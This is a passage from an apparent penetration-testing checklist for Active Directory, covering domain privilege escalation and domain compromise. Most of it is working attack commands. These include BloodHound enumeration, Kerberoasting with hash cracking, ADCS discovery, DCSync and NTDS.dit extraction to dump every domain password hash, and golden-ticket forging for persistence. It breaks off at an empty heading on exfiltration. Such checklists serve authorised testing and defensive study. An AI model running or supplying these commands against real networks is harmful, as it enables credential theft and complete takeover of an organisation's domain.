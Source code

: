 ### Domain Privilege Escalation
- [ ] Enumerate domain security misconfigurations
  ```
  bloodhound-python -d domain.local -u user -p password -c All -ns 192.168.1.100
  ```
  - Import data to BloodHound to find attack paths to Domain Admins

- [ ] Check for Kerberoastable accounts
  ```
  GetUserSPNs.py domain.local/user:password -dc-ip 192.168.1.100 -request -outputfile kerberoast.txt
  hashcat -m 13100 kerberoast.txt wordlist.txt
  ```

- [ ] Check for exploitable ACLs/DACLs
  ```
  # Use BloodHound for visual analysis
  # Look for WriteDACL, GenericAll permissions 
  ```

- [ ] Check for ADCS vulnerabilities
  ```
  certipy find -u user@domain.local -p password -dc-ip 192.168.1.100
  ```

## 📌 7. Domain Compromise

### Taking Control of Active Directory
- [ ] Perform DCSync attack (requires Domain Admin or similar rights)
  ```
  secretsdump.py domain/user:password@192.168.1.100
  mimikatz # lsadump::dcsync /domain:domain.local /all
  ```
  - Extracts all domain password hashes

- [ ] Extract NTDS.dit from Domain Controller
  ```
  # Create Volume Shadow Copy
  vssadmin create shadow /for=C:
  copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit C:\temp\ntds.dit
  copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\temp\system
  
  # Extract hashes
  secretsdump.py -ntds ntds.dit -system system LOCAL
  ```

- [ ] Create Golden Ticket for persistence (if you have the KRBTGT hash)
  ```
  mimikatz # kerberos::golden /user:Administrator /domain:domain.local /sid:S-1-5-21-... /krbtgt:HASH /ptt
  ```

## 📌 8. Data Collection & Exfiltration
